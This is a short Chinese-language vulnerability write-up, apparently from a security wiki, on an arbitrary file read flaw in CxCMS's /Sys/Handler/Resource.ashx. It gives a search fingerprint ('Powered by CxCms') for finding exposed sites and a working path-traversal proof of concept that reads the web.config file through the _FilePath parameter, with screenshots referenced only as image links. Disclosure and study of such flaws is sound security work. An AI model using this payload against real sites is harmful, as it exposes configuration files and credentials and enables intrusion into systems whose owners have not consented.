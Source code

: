 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>CxCMS </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered by CxCms"</a-checkbox></br>

## 漏洞复现

关键字确认CMS

![img](/assets/PeiQi-Wiki/img/1635923532626-6348c269-8042-4b83-9296-aac9516db18e.png)

验证POC

```php
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![img](/assets/PeiQi-Wiki/img/1635923602690-86a13443-0ef9-4788-8ec6-fad2b601ff7e.png)